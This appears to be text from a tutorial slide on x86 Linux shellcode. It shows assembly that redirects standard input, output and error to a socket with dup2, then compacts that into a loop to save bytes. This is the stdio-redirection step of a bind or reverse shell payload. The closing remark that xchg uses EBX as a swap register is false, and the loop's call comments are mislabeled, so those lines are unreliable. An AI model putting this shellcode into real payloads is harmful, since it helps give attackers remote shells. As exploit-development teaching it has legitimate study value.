

# Rewritten as a small loop
; dup2(connected socket, {all three standard I/O file descriptors})
  mov ebx, eax      ; move socket FD in ebx
  push BYTE 0x3F    ; dup2  syscall #63
  pop eax
  xor ecx, ecx      ; ecx = 0 = standard input
  int 0x80          ; dup(c, 0)
  mov BYTE al, 0x3F ; dup2  syscall #63
  inc ecx           ; ecx = 1 = standard output
  int 0x80          ; dup(c, 1)
  mov BYTE al, 0x3F ; dup2  syscall #63
  inc ecx           ; ecx = 2 = standard error
  int 0x80          ; dup(c, 2)

; dup2(connected socket, {all three standard I/O file descriptors})
  xchg eax, ebx     ; put socket FD in ebx and 0x00000005 in eax
  push BYTE 0x2     ; ecx starts at 2
  pop ecx
dup_loop:
  mov BYTE al, 0x3F ; dup2  syscall #63
  int 0x80          ; dup2(c, 0)
  dec ecx           ; count down to 0
  jns dup_loop      ; if the sign flag is not set, ecx is not negative

Cuts down on some size

important note:  xchg swaps <reg1> and <reg2> using EBX as the pivot/swap-register